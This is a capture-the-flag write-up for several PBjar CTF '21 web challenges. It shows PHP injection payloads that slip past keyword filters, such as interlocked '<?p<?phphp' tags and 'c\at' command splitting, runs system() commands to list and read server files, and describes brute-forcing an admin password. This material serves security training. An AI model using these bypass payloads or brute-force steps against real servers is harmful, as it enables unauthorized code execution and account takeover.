 # PBjar CTF '21
## Web challenges

Those challenges are not hard. Anyway, I still write writeup for them to end a lazy week :(
## Programmers hate programming

File ProgrammersHateProgramming-sourcecode.php is provided:
```
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<script>", "", $notetoadd);
    $notetoadd = str_replace_first("</script>", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
We can understand that when we write something in 'new node', a file with php extension will be created with our input.

Filter in this challenge is really easy to bypass, we can use two filtered words interlocked, only one words is deleted and we got the word we need.

For example:

![](img1.png)

oke, generate payload to find and get flag:

- List files in `/`
  ```
  <?p<?phphp
    system('ls /');
  ??>>
  ```
  
 Oke, flag is here
 
 ![](img2.png)
 
 - Next, just cat the flag:
  ```
  <?p<?phphp
    system('cat /flflagag.php');
  ??>>
  ```
### Flag: flag{server_side_php_xss_is_less_known_but_considering_almost_80%_of_websites_use_php_it_is_good_to_know_thank_me_later_i_dont_want_to_stop_typing_this_flagg_is_getting_long_but_i_feel_like_we're_developing_a_really_meaningful_connection}
  
## Programmers hate programming 2
The idea is same with Programmers hate programming but more words is filtered:
```
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<?", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("ls", "", $notetoadd);
    $notetoadd = str_replace("ZeroDayTea is not hot", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
- List file in /:
With some words we can use the same way with programmers hate programming to bypass, but others like `cat, ls,..` We can see str_replace is used and replacing does not do one time, so we can use the this way.
We can use `\` to notify that the command doesn't finish. By this way we will have full command:
```
  <<??php
    system('l\s /');
  ??>>
```
- Cat flag.php:

```
  <<??php
    system('c\at /flflagag.php');
  ??>>
```
### Flag: flag{wow_that_was_a_lot_of_filters_anyways_how_about_that_meaningful_connection_i_mentioned_earlier_:)}

## C0rl:
### Hint: username and poplular password for admin.

First, I think popular username for admin maybe is admin, and what is popular password for admin, I'm to lazy to think, so I use `100000-password-seclists.txt` to brute force with burp.

Finally, I find out the password is `admin`, lol.

I we still can't get the flag:

![](img3.png)

But Why `put` is bold?

Let try changing HTTP request heder to `PUT`. Oh we get flag:

![](img4.png)

### FLAG: flag{HTTP_r3qu35t_m3th0d5_ftw}

## Hack NASA With HTML Mr. Inspector Sherlock
It's an easy challenge, so I only show the file which flag locate.

FLag part 1 is in animation.js: flag{wA1t_a_m1nUt3_

Flag part 2 is in what.html (access sofware.html we can see what.html): I_th0ugh1_sh3l0ck_w2s

Flag part3 (only view source): _a_d3t3ct1iv3????!?!?!}

### Flag: flag{wA1t_a_m1nUt3_I_th0ugh1_sh3l0ck_w2s_a_d3t3ct1iv3????!?!?!}

## omgsosmolhowhacc





